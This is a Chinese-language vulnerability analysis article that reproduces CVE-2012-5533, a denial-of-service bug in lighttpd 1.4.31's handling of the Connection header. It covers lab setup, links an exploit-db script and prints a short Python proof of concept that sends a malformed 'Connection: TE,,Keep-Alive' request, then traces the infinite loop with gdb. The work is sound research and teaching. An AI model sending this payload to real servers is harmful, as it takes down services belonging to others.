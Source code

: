 > 原文链接: https://www.anquanke.com//post/id/86683 


# 【漏洞分析】lighttpd域处理拒绝服务漏洞环境从复现到分析


                                阅读量   
                                **104525**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



**[![](https://p5.ssl.qhimg.com/t01d8d33dc237dc059c.png)](https://p5.ssl.qhimg.com/t01d8d33dc237dc059c.png)**



作者：[virwolf](http://bobao.360.cn/member/contribute?uid=2943513718)

预估稿费：300RMB

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿

**<br>**

**一．lighttpd域处理拒绝服务漏洞的环境搭建**

****

**1）安装lighttpd**

因为此漏洞需要固定版本,因此我们需要手动安装。



```
wget http://download.lighttpd.net/lighttpd/releases-1.4.x/ lighttpd-1.4.31.tar.gz 
tar -zxvf lighttpd-1.4.31.tar.gz
cd lighttpd-1.4.31
```

到这步时，接下来就是执行

```
./configure
```

命令，但是在这步可能会出现以下错误：

```
configure: error: pcre-config not found, install the pcre-devel package or bui with --without-pcre
```

我们需要执行：

```
yum install gcc glib2-devel openssl-devel pcre-devel bzip2-devel gzip-devel zlib-devel
```

来更新缺失的关联包

安装完毕后，继续执行



```
./configure
make &amp;&amp; make install
```

编译完毕后，执行步骤二。

**2）拷贝lighttpd的执行文件**

创建默认文件：



```
mkdir lighttpd-test
cd lighttpd-test
```

拷贝：

```
cp /usr/local/sbin/lighttpd home/lighttpd-test/
```

**3) 创建配置文件**

```
vim lighttpd.conf
```

编写：



```
server.document-root="/var/www/" 
server.port = 8080
server.username = "www" 
server.groupname = "www" 
mimetype.assign = (
   ".html" =&gt; "text/html", 
   ".txt" =&gt; "text/plain",
   ".jpg" =&gt; "image/jpeg",
   ".png" =&gt; "image/png" 
)
static-file.exclude-extensions = ( ".fcgi", ".php", ".rb", "~", ".inc" )
index-file.names = ( "index.html" )
```

**4）自己编写欢迎页面(index.html)**

```
vim /var/www/index.html
```



```
&lt;html&gt;
&lt;head&gt;&lt;title&gt;Hello&lt;/title&gt;&lt;/head&gt;
&lt;body&gt;
&lt;h1&gt;This is a test&lt;/h1&gt;
&lt;/body&gt;
&lt;/html&gt;
```

**5）开启防火墙，启动lighttpd服务**

开启防火墙：

```
iptables -I INPUT -p tcp --dport 8080 -j ACCEPT
```

启动服务：

```
./lighttpd -f lighttpd.conf
```

注意：启动服务这里**必须是绝对路径**，也可自己去添加下环境变量（这里的路径是home/lighttpd-test/）。

启动完后显示server started。

接下来，可以进入浏览器测试了：

```
http://127.0.0.1:8080
```

OK,加载后就会显示我们自己编写的欢迎页面。

[![](https://p1.ssl.qhimg.com/t01c0225a6f455fde8e.png)](https://p1.ssl.qhimg.com/t01c0225a6f455fde8e.png)

 

**二．lighttpd拒绝服务漏洞原理及复现**

****

**1）原理：漏洞描述:CVE(CAN) ID: CVE-2012-5533**

lighttpd是一款开源的轻量级Web服务器。

lighttpd 1.4.31在处理某些HTTP请求头时，"http_request_split_value()"函数(src/request.c)在处理特制的"Connection"报头域时会陷入无限循环。攻击者利用此漏洞可导致Lighttpd拒绝服务。

**2）漏洞复现**

漏洞脚本：[https://www.exploit-db.com/exploits/22902/](https://www.exploit-db.com/exploits/22902/)

此脚本为bash脚本，需要改下权限：

在脚本目录下执行命令：

```
chmod +x test.sh
```

然后执行：

```
./test.sh
```

好的，执行成功。

附带python脚本：



```
#encoding: utf-8
import socket
if __name__ == '__main__':
    sock=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect(('192.**.**.**',8080))
    sock.send(b'GET/HTTP/1.1rnHost: pwn.edrnConnection: TE,,Keep-Alivernrn')
    sock.close()
    print('ok')
```

注释：

命令：

```
ps aux | grep "light*"
```

查看lighttpd服务的进程信息。

```
top
```

查看任务管理器

```
kill -9 PID
```

杀死某进程

<br>

**三、动、静结合跟踪漏洞呈现原因**

****

前面我们已知造成漏洞的函数是(src/request.c)里面的"**http_request_split_value()**"函数，因此我们先找到这个函数位置，在这里我直接将这个函数剪切出来了：

[![](https://p5.ssl.qhimg.com/t0160af2e587de88db7.png)](https://p5.ssl.qhimg.com/t0160af2e587de88db7.png)

让我们来仔细看看标红的代码，开始进入函数时b肯定是有值的，所以，会进入for循环，起初state为0，所以会进入case 0，然而，咱们仔细看下，其实case 0里面的for循环是没有被执行的。因此在case 0里，直接state=1;break;跳出switch..case。继续for循环，这时state=1,所以进入case 1中，start=s,然后，这里面for函数里条件不等于‘，’时，i++，然后进入if语句，if语句中条件就是start=s，执行break,因此，又继续for循环，state=1，进入case 1中。

有人说，即使进行for循环，也是有结束的时候啊，那么我们仔细看下第一个for循环，里面i值，其实是根据漏洞利用脚本发送数据而判定的，漏洞脚本里面‘，’前面只有两个字节，所以当等于‘，’时是没有变动的，因此，造成了死循环。

那么，接下来，使用gdb调试器动态调试来验证一下，是不是如我们所说的那样。

运行漏洞利用脚本后，使用命令

```
gdb -p &lt;PID&gt;
```

进入gdb

调试状态：

 [![](https://p2.ssl.qhimg.com/t018eb3ded3c5f5da67.png)](https://p2.ssl.qhimg.com/t018eb3ded3c5f5da67.png)

如图，直接断在了switch 函数这里，继续跟踪

 [![](https://p1.ssl.qhimg.com/t0152bed667e07e5c31.png)](https://p1.ssl.qhimg.com/t0152bed667e07e5c31.png)

如图，可看出它一直在循环。那么让我们检测下，其中的变量值

 [![](https://p1.ssl.qhimg.com/t010a70379d5fabe0bd.png)](https://p1.ssl.qhimg.com/t010a70379d5fabe0bd.png)

这些变量值是没有变的，所以可以确定造成死循环的原因就是i值没有变过 从而无限陷入for循环造成拒绝服务攻击。
